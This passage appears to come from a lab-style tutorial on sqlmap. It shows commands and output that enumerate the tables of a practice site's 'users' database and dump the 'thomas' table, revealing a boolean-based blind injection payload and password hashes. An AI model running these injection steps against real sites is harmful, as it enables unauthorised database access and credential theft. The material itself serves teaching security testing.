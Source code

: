 ```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Now that we have all the available table names of the database, let's dump the records present in the `thomas` table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
```